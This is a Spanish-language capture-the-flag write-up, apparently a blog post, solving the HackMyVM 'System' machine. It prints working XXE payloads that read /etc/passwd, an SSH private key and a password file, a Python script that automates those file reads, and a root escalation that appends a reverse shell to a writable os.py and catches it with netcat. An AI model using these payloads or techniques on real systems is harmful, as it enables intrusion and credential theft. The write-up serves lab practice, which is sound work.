 ```yaml
---
layout: post
title: System
date: 2022-12-03
author: BlackCage
categories: [HackMyVM]
tags: [HMV, XXE, File Edit]
---
```


# System [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.109 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.109 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos en la página vemos un panel para registrarnos, pero cuando tratamos de registrarnos nos dice que nuestro usuario ya existe. Si miramos el apartado de `Network` en las opciones de `developer` (inspeccionar elemento) veremos que cuando hacemos la petición para registrarnos se utiliza `XML`, por lo que podemos intentar `XML External Entity`.

`XXE` es una vulnerabilidad que inyecta `XML` malicioso en dichos archivos, vamos a ver cómo podemos explotarlo:

```
<?xml version="1.0" encoding="UTF-8"?>
<details>
    <email>black@cage.com</email>
    <password>blackcage</password>
</details>
```

Como vemos esto es el `XML` normal, pero si buscamos por `payloads` nos encontraremos con muchos ejemplos de lo que podemos hacer, en este caso vamos a ver el fichero `/etc/passwd`:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<details>
    <email>&ent;</email>
    <password>blackcage</password>
</details>
```

Como habéis visto hemos añadido dos cosas nuevas, la segunda línea está definiendo una variable con el nombre `ent` que va a almacenar el contenido del archivo `/etc/passwd`. En la cuarta línea vemos que estamos llamando a la variable con `&ent;` para que así cuando nos vaya a decir que el correo ya existe nos muestre el fichero ya mencionado.

Bien! Podemos mirar archivos de la máquina! Como vimos antes con `NMap` el puerto `22` (`SSH`) está abierto, por lo que me voy a dirigir a la carpeta `.ssh` del único usuario que he visto (`david`) para tratar de ver su `id_rsa`.

Para ello cambiaremos la segunda línea del `XML` para que `ent` almacene dicho fichero:

```
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/david/.ssh/id_rsa"> ]>
```

Bien! Ya tenemos la `id_rsa` de `David`! Aunque hay un problema, si tratamos de entrar con dicha clave nos pide una contraseña, pero no la tenemos.

No pasa nada, vamos a enumerar su directorio personal en busca de un archivo que contenga su contraseña o algo relevante. Para ello creé un `script` en `Python` ya que `BurpSuite` iba bastante lento.

```
import requests

with open("/usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt", "r") as wordlist:
    lines = wordlist.readlines()

    for line in lines:
        line = line.replace("\n", "")
        headers = {
            "Host": "192.168.1.109",
            "User-Agent": "BlackCage",
            "Accept": "*/*",
            "Accept-Language": "en-US,en;q=0.5",
            "Content-Type": "text/plain;charset=UTF-8",
            "Origin": "http://192.168.1.109",
            "Connection": "close",
            "Referer": "http://192.168.1.109/"
        }

        data = f'<?xml version="1.0" encoding="UTF-8"?>\r\n<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/david/{line}"> ]>\r\n<details><email>&ent;</email><password>black123</password></details>'

        r = requests.post("http://192.168.1.109/magic.php", headers=headers, data=data, verify=False)
        
        if str(len(r.content)) != "85":
            print(f"{line} | {lenght}")
```

Vemos que primero abre el archivo [`fuzz-Bo0oM.txt`](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/fuzz-Bo0oM.txt), un diccionario que está presente en el repositorio de [`SecLists`](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/fuzz-Bo0oM.txt). Después de eso lee el archivo y lo almacena en una variable llamada `lines`. Con un `for loop` iteramos por cada elemento de `lines`, cada línea estará almacenada en la variable `line`.

Bien, una vez tenemos lo anterior sólo manda la petición a la web con los parámetros adecuados y con `len()` mide el largo del contenido. Si el largo del contenido no es igual a `85` muestra en pantalla la línea utilizada (el fichero que estamos buscando) y el largo de la página.

Olé! Ya sabemos su funcionamiento, vamos a iniciarlo y a ver qué obtenemos:

```
.profile | 892
.ssh/id_rsa | 2687
.ssh/id_rsa.pub | 653
.viminfo | 786
```

Tras unos segundos vemos que varios archivos aparecen, dos de ellos sabemos que no contienen nada (`.ssh/*`) y el archivo `.profile` no contiene información relevante, pero el fichero `.viminfo` tiene una línea muy interesante:

```
# Password file Created:
'0 1 3 /usr/local/etc/mypass.txt
|4,48,1,3,1648909714,"/usr/local/etc/mypass.txt"
```

Vemos un comentario bastante interesante que nos dice que se creó un fichero `Password`. Vemos una ruta: `/usr/local/etc/mypass.txt`, con el `XXE` antes descubierto vamos a ver el contenido:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///usr/local/etc/mypass.txt"> ]>
<details>
    <email>&ent;</email>
    <password>blackcage</password>
</details>
```

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sat, 03 Dec 2022 16:03:51 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 96

<p align='center'>
  <font color=white size='5pt'>
    h4ck3rd4v!d is already registered!
  </font>
</p>
```

Bien! Ya tenemos la contraseña para el usuario `David` (`david:h4ck3rd4v!d`)!

### Subida de privilegios
Una vez nos hayamos conectado por `SSH` a la máquina víctima tenemos que intentar ser `root`, para ello comencé con enumeración básica, aunque no sirvió de mucho.

Con [`PSPY`](https://github.com/DominicBreuker/pspy) me dispuse a ver los procesos que se ejecutaban en tiempo real y, tras unos minutos de espera, me salió un resultado:

```
2022/12/03 12:13:01 CMD: UID=0    PID=12499  | /bin/sh -c /usr/bin/python3.9 /opt/suid.py
```

Vemos que un `script` en `Python` está siendo ejecutado como `root`, vamos a ver el `script`:

```
from os import system
from pathlib import Path

# Reading only first line
try:
    with open('/home/david/cmd.txt', 'r') as f:
        read_only_first_line = f.readline()
    # Write a new file
    with open('/tmp/suid.txt', 'w') as f:
        f.write(f"{read_only_first_line}")
    check = Path('/tmp/suid.txt')
    if check:
        print("File exists")
        try:
            os.system("chmod u+s /bin/bash")
        except NameError:
            print("Done")
    else:
        print("File not exists")
except FileNotFoundError:
    print("File not exists")
```

Vemos que está importando dos librerías: `os` y `pathlib` de las cuales importará `System` y `Path`. Si continuamos leyendo veremos que abre un archivo en `/home/david` con el nombre de `cmd.txt` y lee sólo la primera línea (y la guarda en una variable).

También abre otro archivo en `/tmp/` con el nombre de `suid.txt` y escribe la línea que antes había leído.

Hace una comprobación, y es que si el fichero `suid.txt` existe intentará cambiar los permisos de `/bin/bash`. Si hay un error al cambiar los permisos mostrará `Done`. Si el fichero `suid.txt` no existe mostrará `File not exists`.

Por último, si el fichero `cmd.txt` no existe no hará nada de lo anterior dicho, sólo mostrará `File not exists`.

Si buscamos por `os.py` (`find / -name os.py 2>/dev/null`) y vemos sus permisos veremos que podemos editarlo, por lo que podemos intentar hacer [`Python Library Hijacking`](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/).

Para ello iremos a [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) y nos copiaremos la Reverse Shell en `Python` (sin `python -c` ni las comillas simples). Una vez hecho lo anterior podemos copiarlo al final del fichero `os.py` para que se inicie automáticamente.

Bien! Ya tenemos todo preparado! Aunque antes nos tenemos que poner en escucha con `NC`, en mi caso utilizaré el puerto `4444`.

- `nc -nlvp 4444`

Enhorabuena! Tras esperar unos minutos conseguimos una Shell como `root`! Qué fácil!